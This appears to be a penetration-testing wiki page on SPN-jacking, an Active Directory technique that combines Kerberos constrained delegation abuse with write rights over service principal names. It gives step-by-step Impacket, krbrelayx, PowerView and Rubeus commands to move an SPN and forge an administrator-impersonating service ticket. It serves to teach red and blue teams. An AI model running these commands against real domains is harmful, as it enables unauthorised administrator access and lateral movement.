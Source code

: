 ```yaml
---
authors: 'ShutdownRepo, sckdev'
category: ad
---
```


# SPN-jacking

## Theory

This attack combines [Kerberos Constrained delegation abuse](delegations/constrained.md) and [DACL abuse](../dacl/). A service configured for Kerberos Constrained Delegation (KCD) can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (Service Principal Names) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to [modify it](ptt.md#modifying-the-spn), the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by [Elad Shamir](https://twitter.com/elad_shamir) in [this post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's `ServicePrincipalName` attribute (i.e. `GenericAll`, `GenericWrite` over the object or`WriteProperty` over the attribute (called `WriteSPN` [since BloodHound 4.1](https://posts.specterops.io/introducing-bloodhound-4-1-the-three-headed-hound-be3c4a808146)), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (`GenericAll`, `GenericWrite`, etc.) over the SPN owner as well (_a.k.a. "Live SPN-jacking"_). Else, the SPN can be simply be added to the target object (_a.k.a. "Ghost SPN-jacking"_).

## Practice

> [!TIP]
> In this scenario, we assume the Kerberos Constrained Delegation is configured [with protocol transition](delegations/constrained.md#with-protocol-transition) in order to keep things simple. However, the SPN-jacking attack can be conducted on [KCD without protocol transition](delegations/constrained.md#without-protocol-transition) as well (cf. [RBCD technique](delegations/constrained.md#rbcd-approach)).
> 
> In this scenario (following [Elad](https://twitter.com/elad_shamir)'s [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)):
> 
> * serverA is configured for KCD
> * serverB's SPN is listed in serverA's KCD configuration
> * serverC is the final target
> * attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.

::: tabs

=== UNIX-like

From UNIX-like machines, [krbrelayx](https://github.com/dirkjanm/krbrelayx)'s [addspn.py](https://github.com/dirkjanm/krbrelayx/blob/master/addspn.py) and [Impacket](https://github.com/SecureAuthCorp/impacket) example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

> [!NOTE]
> _At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding the `tgssub.py` is pending._ [_The pull request_](https://github.com/SecureAuthCorp/impacket/pull/1184) _modifying the `findDelegation.py` is pending._
> 
> _At the time of writing, 12th Feb. 2022, this technique has not been fully fool-proofed from UNIX systems. In case something errors, switch to the Windows technique._

```bash
# 1. show SPNs listed in the KCD configuration
findDelegation.py -user 'serverA$' "$DOMAIN"/"$USER":"$PASSWORD"

# 2. remove SPN from ServerB if required (live SPN-jacking)
addspn.py --clear -t 'ServerB$' -u "$DOMAIN"/"$USER" -p "$PASSWORD" 'DomainController.domain.local'

# 3. add SPN to serverC
addspn.py -t 'ServerC$' --spn "cifs/serverB" -u "$DOMAIN"/"$USER" -p "$PASSWORD" -c 'DomainController.domain.local'

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:$PASSWORD'

# 5. Edit the ticket's SPN (service class and/or hostname)
tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
```

Once the final service ticket is obtained, it can be used with [Pass the Cache](ptc.md) / [Pass the Ticket](ptt.md) to access the target.


=== Windows

From Windows machines, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerShell) and [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).



```powershell
# 1. show SPNs listed in the KCD configuration
Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

# 2. remove SPN from ServerB if required (live SPN-jacking)
Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

# 3. add SPN to serverC
Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"$DOMAIN" /user:"$USER" /password:"$PASSWORD"

# 5. Edit the ticket's SPN (service class and/or hostname)
Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
```

Once the final service ticket is obtained, it can be used with [Pass the Ticket](ptt.md) to access the target.

:::


## Resources

[https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse)
